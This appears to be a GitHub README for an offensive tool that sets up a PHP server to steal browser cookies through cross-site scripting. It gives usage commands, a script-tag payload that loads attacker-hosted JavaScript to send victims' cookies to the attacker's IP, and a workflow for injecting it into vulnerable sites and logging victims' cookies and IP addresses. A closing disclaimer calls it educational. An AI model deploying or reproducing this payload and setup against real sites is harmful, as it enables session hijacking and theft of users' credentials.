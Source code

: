 # xss-cookie-stealer
Simple Python script that will set up a PHP server for stealing cookies - and provided the payload needed. 


# Web Server Setup for Cookie Stealing via XSS

This Python script automates the process of setting up a simple PHP server to capture cookies via Cross-Site Scripting (XSS). The script generates an XSS payload, creates a web server directory, and runs a PHP server that logs victim cookies to a file.

## Features
- Generates an XSS payload for `<script>` injection.
- Sets up a PHP server that captures cookies from victims.
- Logs the cookies to `cookies.txt` along with the victim's IP address.
- Automatically creates the necessary files (`script.js` and `index.php`).

## Prerequisites
- Python 3.x
- PHP (required to run the web server)
- `sudo` privileges (required to run PHP on port 80)

## Usage

### Display Help
You can display the help message by running:

```bash
python3 xss-cookie-stealer.py -h
```

### Run the Script
To generate the payload and set up the PHP server, provide your IP address as an argument:

```bash
python3 xss-cookie-stealer.py <YOUR_IP>
```

Example:

```bash
python3 xss-cookie-stealer.py 192.168.1.10
```

### Payload
After running the script, the XSS payload will be echoed to the terminal. You can inject this payload into a vulnerable web page to capture cookies:

```html
<script src="http://<YOUR_IP>/script.js"></script>
```

### Files Created
The script will create the following files in the `web-server` directory:
- **`index.php`**: Handles the incoming requests and logs cookies to `cookies.txt`.
- **`script.js`**: Sends the victim's cookies to the PHP script.

### Start PHP Server
The script will start a PHP server on port 80 to host the web server:

```bash
sudo php -S 0.0.0.0:80 -t web-server
```

### Log Output
Captured cookies and victim IP addresses will be saved in the `cookies.txt` file inside the `web-server` directory.

## Example Workflow

1. Run the script with your IP address:
   ```bash
   python3 create_payload.py 192.168.1.10
   ```

2. Inject the payload in a vulnerable website:
   ```html
   <script src="http://192.168.1.10/script.js"></script>
   ```

3. Any cookies sent by users visiting the vulnerable page will be logged in `cookies.txt` along with their IP address.

## License
This project is for educational purposes only. Ensure that you have permission before using this script on any system or application.

---

**Disclaimer**: This script is intended for ethical purposes only, such as penetration testing within legal and authorized boundaries. Misuse of this tool for illegal activities is strictly prohibited.
